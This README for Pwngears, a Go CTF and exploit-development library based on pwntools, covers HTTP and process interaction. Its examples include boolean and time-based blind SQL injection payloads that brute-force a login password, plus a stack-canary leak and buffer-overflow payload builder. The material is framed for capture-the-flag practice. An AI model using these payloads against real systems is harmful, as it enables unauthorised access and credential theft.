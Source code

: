 Pwngears is a CTF framework and exploit development library based on pwntools. It aimed to provide improved API and better error handling while facilitating the reusability of the exploit. It also aims to provide its core package without any external dependencies, leveraging the Go standard library. 

## Installation
```sh
go get github.com/tonythetender/pwngears
```

## Basic Syntax
        
### Web
You'll first need to import the web package.
```go
import "github.com/tonythetender/pwngears/web"
```

You can simply start a connection with the following function.
```go
conn, err := web.Conn("http://some-ctf-website.com")
if err != nil {
	log.Fatal(err)
}
```

This connection will hold track of things like cookies and headers while also making sure the connection doesn't timeout or redirect indefinitely.

From there you can make GET request simply like this :
```go
resp, err := conn.Client.Get("/")
if err != nil {
	log.Fatal(err)
}

fmt.Println(resp.Text())
```

You can also add query directly in the string or by adding parameters
``` go
resp, err := conn.Client.Get("/search",
	web.WithParam("category", "shoes"),
        web.WithParam("color", "blue"),
        web.WithParam("size", "9"))

```
You can add header the same way or cookies the same way
```go
resp, err := conn.Client.Get("/search",
	web.WithHeader("Content-Type", "application/json"))
```


### Binary exploitation
You'll first need to import the process package.
```go
import pwn "github.com/tonythetender/pwngears/process"
```
To do binary exploitation (ie pwning and reverse) you can connect to a process either localy through an executable
```go
conn, err := pwn.Process("./command")
if err != nil {
	log.Fatal(err)
}
defer conn.Close()
```
Or through a tcp connection
```go
conn, _ := pwn.Remote("127.0.0.1", 12069)
```
With the possibility of SSL over TCP
```go
conn, _ := pwn.RemoteSSL("127.0.0.1", 12069)
```
You can then send inputs directly to the process. The library takes care of converting the string to bytes, but you can also explicitly send bytes to it. Those wont be converted again.
```go
r.SendLine("shellcode")
r.SendLine([]byte("shellcode"))
```
You can also send an input after the process as output a certain line
```go
r.SendLineAfter("Name: ", "John")
```

## Advanced Syntax

### Web
A lot of challenge will require you to iterate over alphanumeric character in order to find the next missing character. For example, when doing SQL injection, you might get a feedback if the start of your input is correct so you need to iterate over every character until you find the whole input. Using the integrated BruteForcer makes this simple.
```go
import (
	bf "pwngears/bruteforce"
	"pwngears/web"
)

func BruteForceFormExample(ctf *web.WebConn) string {
	conn, err := web.Conn("http://some-ctf-website.com")
	if err != nil {
		log.Fatal(err)
	}

	exploit := bf.NewBruteforcer()
	// Multiple charset options are available but you can also pass a custom
	// string that will be used as the charset
	exploit.Charset = bf.GenerateCharset("alphanumeric", "special")
	exploit.MaxLength = 24
	exploit.Delay = 50 * time.Millisecond

	// Different bruteforcer are available, here we use PostRequestBf
	// for bruteforcing a form sent through a POST request
	password, _ := exploit.CharByChar(`admin' AND password like '`, `%' --`, web.PostRequestBf(
		conn.Client,
		"/login",
		"username",
		// For every attempt, the bruteforcer will make sure this field is filled
		web.AlsoFillFormField("password", "Joe"),
		// The input will be consider valid if the following two conditions are true
		web.WithoutBodyContains("invalid"),
		web.WithResponseCode(200),
	))
	return password
}
```
### Time-based SQLI
Lets say your SQLI doesn't provide you with proper response telling you if your query is correct. Different database provide way to make the query take longer in the event that the query is true. Lets say youre trying to find the password of the user id 1 by sleeping when the character is correct. You can make it so that if the response takes above 3 seconds, it counts as valid.
```go
func BruteForceFormExample(conn *web.WebConn) string {
	exploit := bf.NewBruteforcer()
	exploit.Charset = bf.GenerateCharset("digits")
	exploit.MaxLength = 10

	prefix := `1 UNION SELECT IF(SUBSTRING(user_password,1,1) = CHAR(`
	suffix := `),BENCHMARK(5000000,ENCODE('MSG','by 5 seconds')),null) FROM users WHERE user_id = 1;`

	password, _ := exploit.CharByChar(prefix, suffix, web.PostRequestBf(
		conn.Client,
		"/login",
		"username",
		web.WithResponseTimeAbove(3 * time.Second),
	))
	return password
}

```

### Binary Exploitation
Some function were added to facilitate the process of leaking a canary or and address. You can set up your exploit like this
```go
exploit := pwn.NewExploit(r)
exploit.SetConnectFunc(func() pwn.Tube {
	conn, _ := pwn.Connect("127.0.0.1", 12069)
	r.SendLine("Arthur")
	return conn
})

canary, _ := exploit.LeakCanary(40, func(tube pwn.Tube) bool {
	resp, _ := tube.RecvLine()
	// The character is correct when the "Saved" line is displayed
	return pwn.Contains(resp, "Saved")
})

retAddr, _ := exploit.LeakAddress(40, canary, 8, func(tube pwn.Tube) bool {
	resp, _ := tube.RecvLine()
	return pwn.Contains(resp, "Saved")
})

pieBase := retAddr - 0x1811
winAddr := pieBase + 0x12e9

pwn.Pay().
	PadTo(40).
	Canary(canary).
	Repeat("B", 8).
	P64(winAddr).
	SendWithSize(r)

```
